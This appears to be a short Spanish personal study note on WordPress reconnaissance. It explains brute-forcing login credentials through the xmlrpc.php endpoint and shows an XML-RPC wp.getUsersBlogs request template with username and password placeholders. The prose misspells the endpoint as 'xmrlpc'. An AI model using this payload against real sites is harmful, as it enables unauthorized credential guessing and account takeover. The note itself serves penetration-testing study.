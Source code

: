 ```yaml
---

---
```


--------

-tags: #web #reconocimiento #wordpress 

------------------
Si quisiéramos aplicar fuerza bruta en [[WordPress - Definicion y Concepto]] para descubrir credenciales validas así como con la herramienta [[WpScan]] seria necesario aplicar por un método *POST* aprovechando las vías potenciales de un archivo xml en el **xmrlpc** como se muestra a continuación:

```xml
<methodCall>
	<methodName>wp.getUsersBlogs</methodName> 
	<param><value>{username}</value></param>
	<param><value>{password}</value></param>
</methodCall>
```




